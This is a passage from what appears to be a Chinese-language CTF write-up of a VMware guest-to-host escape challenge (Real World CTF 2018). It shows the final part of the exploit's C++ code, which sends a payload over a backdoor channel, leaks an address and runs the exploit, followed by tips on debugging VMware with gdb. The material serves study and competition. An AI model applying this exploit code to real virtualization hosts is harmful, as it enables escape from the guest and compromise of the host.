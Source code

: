 ```cpp=
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(pay4)+1,pay4,&res);
    run_cmd(s4);
    if(!res){
        printf("fail to set len\n");
        return;
    }
}
void main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    setvbuf(stdin,0,2,0);
    leak();
    printf("text base :%p",text);
    exploit();
}	
```
Enjoy your calculator:)
![](/assets/images/backup/realworldctf_2018_stationescape/d46yMQQ.png)


## 关于调试
调试有点小技巧需要说明一下。首先就是正常的把`vmware`开起来，然后在`host`用`gdb`来`attach`上去。这个时候我们会下断点，然后继续运行，进入虚拟机`guest`里面跑`exploit`脚本。但大家想一下，如果你还在`guest`里面的时候，`host`的`gdb`遇到了断点，会怎样？
因为`gdb`遇到了断点，那么`guest`就被停住了。然而你还在`guest`里面，你就没有办法按`ctrl+alt`切出来了，就像被人放了一招`时间停止`一样。这个时候你除了含泪强制关机之外没有什么好办法。所以大家在调试的时候记得现在exp开头加个`sleep`,然后在`sleep`的时候赶紧把鼠标切出来到`host`中。这样就可以正常调试了。(PS:好像`mac`不会有这个问题，因为`mac`可以直接用触摸板切出来?)

